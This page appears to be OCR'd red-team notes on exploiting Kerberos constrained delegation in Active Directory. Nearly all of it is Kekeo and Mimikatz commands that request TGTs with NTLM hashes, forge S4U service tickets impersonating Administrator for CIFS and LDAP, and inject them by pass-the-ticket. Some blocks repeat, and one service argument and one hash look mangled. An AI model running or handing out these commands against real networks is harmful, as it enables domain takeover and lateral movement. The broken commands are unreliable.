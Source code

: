 

- Identify the user and computer account having constrained delegation enabled
    
    ```powershell
	# Request a TGS

	tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
	tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:time/computer.domain.LOCAL|ldap/computer.domain.LOCAL
	
	.\asktgs.exe C:\temp\trust_forest_tkt.kirbi CIFS/dc.domain2.local

    
    ```
- Requesting a TGT
    
	
	```powershell

	tgt::ask /user:websvc /domain:domain.local /rc4:cc098f204c5887eaa8253e7c2749156f
	tgt::ask /user:dcorp-adminsrv /domain:domain.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67

	```
- Request a TGS

	```powershell

	tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:cifs/computer.domain.LOCAL
	tgs::s4u /tgt:TGT.kirbi /user:Administrator@domain.local /service:time/computer.domain.LOCAL|ldap/computer.domain.LOCAL

	```

   

**[I] Constrained Delegation - User/Service Account**

- Method 1: User Account exploitation using Kekeo
    - Request a TGT for for vulnerable account using NTLM hash
        
        ```powershell
        .\Kekeo.exe tgt::ask user:websvc /domain:organicsecurity.local /rc4:cc096515667862789729156f
        
        ```
        
    - Use the TGT to fetch delegable TGS for second service
        
        ```powershell
        .\kekeo.exe tgs::s4u /tgt:TGT_websvc@organicsecurity.local_krbtgt~organicsecurity.local@organicsecurity.local.kirbi /user:Administrator@organicsecurity.local /service:cifs dcorp mssql.organicsecurity.local
        
        ```
        
    - Inject the ticket into memory using Mimikatz
        
        ```powershell
        Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@organicsecurity.local@organicsecurity.local_cifs~dcorp-mssql.organicsecurity.local@organicsecurity.local.kirbi"'
        
